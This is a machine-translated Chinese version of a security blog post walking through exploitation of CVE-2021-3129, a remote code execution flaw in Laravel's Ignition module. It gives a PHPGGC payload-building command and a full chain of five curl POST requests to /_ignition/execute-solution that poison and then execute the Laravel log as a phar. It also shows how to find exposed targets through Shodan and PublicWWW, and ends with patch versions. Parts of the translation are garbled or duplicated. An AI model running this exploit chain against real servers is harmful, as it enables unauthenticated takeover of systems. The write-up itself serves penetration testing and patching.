


# 如何利用 Pentest-Tools.com 拉勒维尔(CVE-2021-3129) |中的远程代码执行漏洞

> 原文：<https://pentest-tools.com/blog/exploit-rce-vulnerability-laravel-cve-2021-3129>

我第一次在 Horizontall 机器上发现这个漏洞是在[黑掉盒子](https://www.hackthebox.com/)的时候，它被触发的条件促使我去更详细地理解它。

CVE-2021-3129 让我想起了一个日志中毒漏洞，但味道不同。

最具挑战性的部分是为这个安全缺陷创建一个流程，并将其集成到我们的自动开发工具中，因为它需要 PHP 可序列化的代码注入。

让我们深入了解更多细节，看看您如何利用 Pentest-Tools.com 的 Laravel 中的这个关键漏洞！

## 什么是 CVE-2021-3129？

[**CVE-2021-3129**](https://nvd.nist.gov/vuln/detail/CVE-2021-3129) 是 Laravel 框架中的一个远程代码执行漏洞，它利用了 PHP 的不安全使用。该漏洞以及利用该漏洞的步骤与传统的日志中毒攻击类似。

在典型的日志中毒中，攻击者需要首先利用本地文件包含来实现远程代码执行，而在 Laravel 框架中，我们需要**点火模块**(点火是显示错误的页面)和特定的链来触发该漏洞。

这个安全问题相对容易被利用，并且**不需要用户认证**，这也是它拥有 9.8 CVSSv3 分数的原因之一。

## **拉勒维尔·RCE 号(CVE-2021-3129)的工作原理**

为了利用拉勒维尔·RCE(CVE-2021-3129)，首先我们寻求理解**文件*如何获取*内容()**和**文件*如何放置*内容()**的工作原理。

这两个函数只是读取和写入文件的内容。但是这些函数怎么会对这个命令有恶意呢？

在 Laravel 点火模式中，我们有一个名为**MakeViewVariableOptionalSolution**的类，它调用两个函数，通过向 **/_ignition/execute-solution 发送 POST 请求来触发这两个函数。**它使用包含视图文件**参数**的 JSON 有效载荷来完成这项工作。

读写一个文件的动作并没有给我们更多的洞察，但是 php 允许我们使用类似**PHP://filter/write = convert . base64-decode/resource = path/to/a/specific/file**和**phar:///path/to/specific/file**这样的过滤器来修改和执行 PHP 可序列化代码。

然而，这不足以触发 RCE。默认的 Laravel 在**存储/logs/laravel.log** 中有日志文件，其中包含了每一个 PHP 错误。以解码和执行为目的编写恶意内容一开始是行不通的，因为 PHP 在解码 base64 时会忽略坏字符，所以错误不会写入 Laravel 日志文件。

此外，日志文件有更多的条目会影响我们的负载。希望我们可以再次调用 **php://** 来清除日志文件，并且只执行和注入我们的有效负载两次。但是我们还需要一步。

由于绝对路径的原因，日志文件中最终有效负载的长度因目标而异，这可能会导致 base64 有效负载解码错误。

我尝试触发 RCE 的最后一种方法是对 **UTF-16** 使用 base64 解码，它将有效载荷调整为 2 个字节。在这种情况下，第一个有效载荷被正确解码，因此第二个也将被正确解码。

总而言之，您可以通过 **5 个步骤**来利用这个漏洞:

### **1。通过发送有效负载来清除日志，例如:**

data["参数"]["查看文件"]= " PHP://filter/write = convert。iconv。utf-8。utf-16le |转换引用-打印-编码|转换。iconv。utf-16le。utf-8 |转换 base64-解码/资源=../storage/logs/laravel.log "

### **2。发送 2 个字节来对齐日志文件的内容**

data[" parameters "][" view file "]=*任意 2 个字节的哑元*

### **3。使用 PHPGGC:** 创建一个可序列化的对象

**" PHP-d ' phar . readonly = 0 ' phpggc/phpggc laravel/rce 3 system*命令*–phar phar-o PHP://output | base64-w0 | python-c "导入 sys 打印("。join(['=' + hex(ord(i))[2:]。sys.stdin.read()])中 I 的 zfill(2) + '=00 '。上层())"**并将有效载荷保存成文件**和*命令*** 。这是您想要执行的 Linux 命令。

有效负载应该是这样的:

```
"=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=56=00=53=00=4B=00=43=00=6B=00=37=00=49=00=44=00=38=00=2B=00=44=00=51=00=70=00=4E=00=41=00=51=00=41=00=41=00=41=00=67=00=41=00=41=00=41=00=42=..."
```

并通过 post 请求发送有效负载:

```
data["parameters"]["viewFile"] = “=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=56=00=53=00=4B=00=43=00=6B=00=37=00=49=00=44=00=38=00=2B=00=44=00=51=00=70=00=4E=00=41=00=51=00=41=00=41=00=41=00=67=00=41=00=41=00=41=00=42=...”
```

### **4。使用 PHP 过滤器解码有效载荷:**

```
data["parameters"]["viewFile"] = “php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log”
```

### **5。触发 RCE**

```
data["parameters"]["viewFile"] = “phar://../storage/logs/laravel.log”
```

## **易受攻击的 Laravel 版本**

据 [NIST](https://nvd.nist.gov/vuln/detail/CVE-2021-3129) 称，该漏洞影响 8.4.2 之前的 Laravel 框架和 2.5.2 之前的点火模式的所有版本。

## **CVE-2021-3129 的业务影响**

成功利用该漏洞后，未经验证的攻击者可以获得对目标的**控制，危害 Laravel 使用的所有服务和数据库，并暴露整个基础设施。**

## **如何找到易受 CVE 攻击的目标-2021-3129**

### **使用 Shodan**

使用带有过滤器 **http.html:Laravel** 的 Shodan 搜索引擎将为有动机的攻击者揭示更多潜在目标:



在写这篇文章的时候，Shodan 指出至少有 **92，575 个潜在易受攻击的**服务器。

### **使用 PublicWWW**

[PublicWWW](https://publicwww.com/) 是一个搜索引擎，您可以使用它根据源代码内容、回复标题、cookies 和所使用的技术来跟踪网站。您可以使用 cookie **laravel_session** 来查找可能易受 CVE 攻击的目标-2021-3129:



一旦您找到了目标，就该验证它们中的哪些实际上是可以利用的，这样您就可以提交一份全面的 pentest 报告，帮助有效地确定补救的优先顺序。

一旦您找到了目标，就该验证哪些目标实际上是可以利用的，这样您就可以提交一份全面的 pentest 报告，帮助有效地确定补救的优先顺序。

## **如何在道德黑客活动中手动检测 CVE-2021-3129**

在开始发送请求之前，我们需要使用 **PHPGGC** 来构建我们的有效负载。

在上一节中，我展示了一个命令来创建一个有效负载，如下所示:

```
“php -d 'phar.readonly=0' phpggc/phpggc laravel/rce3 system command --phar phar -o php://output | base64 -w0 | python -c "import sys;print(''.join(['=' + hex(ord(i))[2:].zfill(2) + '=00' for i in sys.stdin.read()]).upper())”.
```

为此，我们至少需要在我们的机器上安装 PHP CLI 包和 PHPGGC。当然，这不是唯一可用的有效载荷。我们可以使用不同的有效载荷从 RCE1 到 7 的 Laravel gadgets。在制作好我们的有效负载之后，我们可以发送下面的请求链来触发 RCE。

为了利用 CVE-2021-3129 ，你需要发送一连串的 POST 请求来实现 RCE:

```
curl -XPOST -H 'Content-Type: application/json'  -d ‘{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "test", "viewFile": "php://filter/write=convert.iconv.utf-8.utf-16le|convert.quoted-printable-encode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"}, }’  http(s)://<Target_ip>:<port>/_ignition/execute-solution
```

```
curl -XPOST -H 'Content-Type: application/json'  -d ‘{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "test", "viewFile": "AA"}, }’  http(s)://<Target_ip>:<port>/_ignition/execute-solution
```

```
curl -XPOST -H 'Content-Type: application/json'  -d ‘{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "test", "viewFile": "=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=56=00=53=00=4B=00=43=00=6B=00=37=00=49=00=44=00=38=00=2B=00=44=00=51=00=70=00=4E=00=41=00=51=00=41=00=41=00=41=00=67=00=41=00=41=00=41=00=42=..."}, }’  http(s)://<Target_ip>:<port>/_ignition/execute-solution
```

```
curl -XPOST -H 'Content-Type: application/json'  -d ‘{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "test", "viewFile": "php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"}, }’  http(s)://<Target_ip>:<port>/_ignition/execute-solution
```

```
curl -XPOST -H 'Content-Type: application/json'  -d ‘{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "test", "viewFile": "phar://../storage/logs/laravel.log"}, }’  http(s)://<Target_ip>:<port>/_ignition/execute-solution
```

并且该命令的输出应该在从目标接收的最后一个响应中可用。

如果你想尝试一个更快的开发方法，你可以使用 Pentest-Tools.com。

## **如何缓解 CVE-2021-3129**

最谨慎的做法是积极主动地在您的环境中应用可用的补丁，将点火模式升级到版本 2.5.2，将 Laravel 框架升级到版本 8.4.2。

| 产品构建 | 固定版本 | 产品构建 | 固定版本 |
| --- | --- | --- | --- |
| Laravel 8.4.1 及之前的所有版本 | 8.4.2 | 点火 2.5.1 及之前的所有版本 | 2.5.2 |

我们的客户问的一个问题是，我们如何帮助他们快速检测和利用像这样的关键漏洞，这种漏洞似乎以前所未有的速度出现。

通过我们的[动手测试指南](https://pentest-tools.com/blog/categories/vulnerabilities)，我们专注于分享我们可复制的流程、有用的方法或技巧，您可以使用它们来扩展您的知识和道德黑客技能。也帮助别人！

当我们在您可以立即使用的平台上集成新的检测和利用模块时，请相信我们会让您及时了解情况！实用、有用的 pentesting 指南直接发送到您的收件箱！